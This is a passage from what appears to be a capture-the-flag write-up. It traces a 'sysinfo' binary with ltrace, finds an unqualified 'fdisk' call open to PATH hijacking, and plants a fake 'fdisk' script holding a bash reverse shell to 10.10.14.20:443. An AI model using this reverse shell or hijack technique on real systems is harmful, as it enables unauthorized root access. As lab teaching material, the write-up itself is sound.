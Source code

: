     cpuid level	: 16
    wp		: yes
    flags		: fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx mmxext fxsr_opt pdpe1gb rdtscp lm constant_tsc rep_good nopl tsc_reliable nonstop_tsc cpuid extd_apicid pni pclmulqdq ssse3 fma cx16 sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand hypervisor lahf_lm extapic cr8_legacy abm sse4a misalignsse 3dnowprefetch osvw ssbd ibpb vmmcall fsgsbase bmi1 avx2 smep bmi2 rdseed adx smap clflushopt clwb sha_ni xsaveopt xsavec xsaves clzero arat overflow_recov succor
    bugs		: fxsave_leak sysret_ss_attrs spectre_v1 spectre_v2 spec_store_bypass
    bogomips	: 5988.75
    TLB size	: 3072 4K pages
    clflush size	: 64
    cache_alignment	: 64
    address sizes	: 43 bits physical, 48 bits virtual
    power management:
    
    
    ====================MEM Usage=====================
                  total        used        free      shared  buff/cache   available
    Mem:           3.8G        1.0G        1.9G         34M        946M        2.6G
    Swap:          1.0G          0B        1.0G
    

### ltrace

Running `sysinfo` with `ltrace` prints out the calls made outside the binary.
There’s a ton of output, but looking through it, there’s a line that jumps out
at me:

    
    
    theseus@ubuntu:/$ ltrace sysinfo
    ...[snip]...
    popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
    fgets(fdisk: cannot open /dev/loop0: Permission denied
    fdisk: cannot open /dev/loop1: Permission denied
    fdisk: cannot open /dev/loop2: Permission denied
    fdisk: cannot open /dev/loop3: Permission denied                                                   
    fdisk: cannot open /dev/loop4: Permission denied
    ...[snip]...
    

`popen` is another way to [open a process](https://man7.org/linux/man-
pages/man3/popen.3.html) on Linux. The binary is making a call to `fdisk`,
which is fine, except that it is doing so without specifying the full path.
This leave the binary vulnerable to path hijacking.

### Shell

I’ll create a reverse shell script in `/dev/shm`:

    
    
    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1' > fdisk
    theseus@ubuntu:/dev/shm$ chmod +x fdisk 
    
